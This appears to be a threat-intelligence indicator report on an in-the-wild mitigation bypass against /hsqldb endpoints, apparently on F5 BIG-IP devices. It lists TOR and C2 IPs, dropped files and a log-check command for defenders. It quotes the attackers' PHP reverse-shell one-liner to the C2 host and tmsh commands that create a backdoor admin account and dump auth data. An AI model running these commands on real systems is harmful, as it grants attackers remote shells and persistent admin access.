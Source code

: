 ## Requests

Looks for POST requests beginning with:

/hsqldb

## Timeline

First use of the mitigation bypass was seen in the wild on Jul 7, 2020 @ 12:39:32.000 (UTC)

## Targeting

We assess that the targeting was widespread. We first saw targeting in Southeast Asia, followed by further targeting in Europe later on in the day by the same actor.

## IP Addresses

Requests were made via TOR, however subsequent C2 took place to a host in South Korea.

Initial requests (TOR):

* 185.100.86[.]182
* 185.220.101[.]142

C2 address:

175.199.197[.]167

## Files dropped:

* /var/tmp/auth
* /tmp/nen.out
* /tmp/nen

## Commands run

`php -r '$sock=fsockopen("175.199.197[.]167",443);exec("/bin/sh -i <&3 >&3 2>&3");'`

`tmsh -c 'create auth user systems password ABcD007`

`tmsh -c 'list auth' > /var/tmp/auth`

## Backdoor account

A backdoor account named "systems" is added to the compromised device, with a password of ABcD007.

The account is created with admin privileges.

## Log artifacts

Run the following command to check the web logs:

```
journalctl /bin/logger|grep '"/hsqldb'
```

Any results are an indicator that the mitigation bypass has been attempted.
